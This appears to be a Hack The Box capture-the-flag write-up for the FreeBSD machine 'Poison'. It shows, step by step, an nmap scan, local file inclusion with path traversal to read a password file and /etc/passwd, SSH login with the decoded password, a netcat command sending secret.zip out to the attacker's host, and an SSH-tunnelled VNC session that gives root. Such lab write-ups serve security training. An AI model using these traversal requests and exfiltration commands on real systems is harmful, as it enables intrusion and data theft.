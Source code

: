 ```yaml
---
permalink: /posts/HTB/Poison
title:  "HTB Poison"
author: Luc Kolen
description: "Poison is a medium Linux machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB-{Difficulty}
  - Linux
  - Local file inclusion
  - VNC
---
```

# 10.10.10.84 - Poison

|Hack The Box|Created by|Points|
|---|---|---|
|[Link](https://www.hackthebox.eu/home/machines/profile/132)|[Charix](https://www.hackthebox.eu/home/users/profile/11060)|30|

- [10.10.10.84 - Poison](#10101084---poison)
  - [Open ports](#open-ports)
  - [HTTP](#http)
  - [Privilege escalation](#privilege-escalation)
  - [TL;DR](#tldr)

## Open ports

```bash
luc@kali:~/HTB/Poison$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.84
```

|Port|Service|Version
|---|---|---|
22/tcp|ssh|OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
80/tcp|http|Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)

## HTTP

`http://10.10.10.84/` shows a page where we can enter what local script we want to test.

```http
GET /browse.php?file=listfiles.php HTTP/1.1
Host: 10.10.10.84

Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
```

```http
GET /browse.php?file=pwdbackup.txt HTTP/1.1
Host: 10.10.10.84

This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

```bash
luc@kali:~/HTB/Poison$ cat pwdbackup.txt | base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d
Charix!2#4%6&8(0
```

We now have a password, but no usernames yet.

```http
GET /browse.php?file=../../../../../etc/passwd HTTP/1.1
Host: 10.10.10.84

# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
...
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

```bash
luc@kali:~/HTB/Poison$ ssh charix@10.10.10.84
The authenticity of host '10.10.10.84 (10.10.10.84)' can't be established.
ECDSA key fingerprint is SHA256:rhYtpHzkd9nBmOtN7+ft0JiVAu8qnywLb48Glz4jZ8c.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.84' (ECDSA) to the list of known hosts.
Password for charix@Poison: Charix!2#4%6&8(0
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
You can look through a file in a nice text-based interface by typing

        less filename
charix@Poison:~ % id
uid=1001(charix) gid=1001(charix) groups=1001(charix)
charix@Poison:~ % cat user.txt
eaacdfb2************************
```

## Privilege escalation

```bash
charix@Poison:~ % pwd
/home/charix
charix@Poison:~ % ls
secret.zip      user.txt
charix@Poison:~ % md5 secret.zip
MD5 (secret.zip) = f558c7adb5695c92306361581c915dea
charix@Poison:~ % nc 10.10.14.9 443 < secret.zip
```

```bash
luc@kali:~/HTB/Poison$ sudo nc -lnvp 443 > secret.zip
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.84.
Ncat: Connection from 10.10.10.84:27865.
luc@kali:~/HTB/Poison$ md5sum secret.zip
f558c7adb5695c92306361581c915dea  secret.zip
luc@kali:~/HTB/Poison$ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password: Charix!2#4%6&8(0
luc@kali:~/HTB/Poison$ hexdump secret
0000000 a8bd 7c5b 96d5 217a
0000008
```

We can transfer `secret.zip` to our machine and use `Charix!2#4%6&8(0` we found earlier to decrypt it, but the output doesn't look very useful for now.

```bash
charix@Poison:~ % ps aux | grep root
...
root   529   0.0  0.9  23620  8872 v0- I    13:23     0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -l
...
charix@Poison:~ % netstat -an -p tcp
...
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

We can see VNC running on ports 5801 and 5901.

```bash
charix@Poison:~ %
charix@Poison:~ % ~C
ssh> -D 8081
Forwarding port.
```

```bash
luc@kali:~/HTB/Poison$ sudo nano /etc/proxychains.conf
...
socks4 127.0.0.1 8081
luc@kali:~/HTB/Poison$ proxychains vncviewer 127.0.0.1:5901 -passwd secret
```

```bash
root@Poison:~ # id
uid=0(root) gid=0(whell) groups=0(whell),5(operator)
root@Poison:~ # cat /root/root.txt
716d04b1************************
```

We connect via a SSH tunnel on port 8081 and we can use the `secret` file as the password. This gets us into the server via a VNC session and we can enter commands in a open root terminal.

## TL;DR

- LFI shows credentials
- VNC password in zip file with same password as user
